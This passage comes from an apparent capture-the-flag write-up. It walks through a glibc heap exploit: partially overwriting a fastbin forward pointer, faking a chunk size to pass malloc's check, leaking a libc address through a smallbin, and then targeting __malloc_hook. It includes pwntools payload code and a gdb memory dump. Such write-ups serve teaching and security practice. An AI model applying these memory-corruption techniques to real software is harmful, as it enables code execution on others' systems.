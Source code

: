 Which basically checks if the `victim->size (0x55db5d67f0c0->size)` corresponds to the size of this fastbin request (which does not because victim->size is 0x91 and we are requesting fastbin 0x20), but we can easily fix that with the overflow we are given.

To show you how that looks like:

{% highlight python %}

    payload  = p64(0)*5
    payload += p64(0x31)
    payload += p64(0)*5
    payload += p64(0x31)
    payload += p8(0xc0)
    fill(0, payload)        # Partial overwrite of fastbin->FD with \xc0 (location of smallbin)

    payload  = p64(0)*5
    payload += p64(0x31)    # Corrupting smallbin->size to pass allocation assert
    fill(3, payload)

    alloc(0x20)
    alloc(0x20)

gdb-peda$ x/40gx 0x000055db5d67f000
0x55db5d67f000: 0x0000000000000000  0x0000000000000031  <--- chunk 0 (fastbin, in use)
0x55db5d67f010: 0x0000000000000000  0x0000000000000000
0x55db5d67f020: 0x0000000000000000  0x0000000000000000
0x55db5d67f030: 0x0000000000000000  0x0000000000000031  <--- chunk 1 (fastbin, free)
0x55db5d67f040: 0x0000000000000000  0x0000000000000000
0x55db5d67f050: 0x0000000000000000  0x0000000000000000
0x55db5d67f060: 0x0000000000000000  0x0000000000000031  <--- chunk 2 (fastbin, free)
0x55db5d67f070: 0x000055db5d67f0c0  0x0000000000000000   FD corruption
0x55db5d67f080: 0x0000000000000000  0x0000000000000000
0x55db5d67f090: 0x0000000000000000  0x0000000000000031  <--- chunk 3 (fastbin, in use)
0x55db5d67f0a0: 0x0000000000000000  0x0000000000000000
0x55db5d67f0b0: 0x0000000000000000  0x0000000000000000
0x55db5d67f0c0: 0x0000000000000000  0x0000000000000031  <--- chunk 4 (smallbin, in use) ->size
0x55db5d67f0d0: 0x0000000000000000  0x0000000000000000   corrupted to 0x31
0x55db5d67f0e0: 0x0000000000000000  0x0000000000000000

{% endhighlight %}

### Smallbin leak

Now we have a smallbin and fastbin both allocated at `0x55db5d67f0c0`, we still need a leak. To populate smallbin's FD and BK we need to free it. But if we free it with it's current size 0x31 it will be placed in a fastbin and we won't get any FD BK populated, so we just need to restore its' size to 0x91 and then free it (don't over-think too much here :P).

## Exploit

Ok, now we have the address of libc and we know how fastbin attack works, what now ? Well, we use same same... but different :)
We can use fastbin attack to place a libc address in the fastbin free list, so malloc returns this libc address and we can overwrite libc stuff. Our target is __malloc_hook, which is a function pointer that malloc calls if this pointer is not NULL.
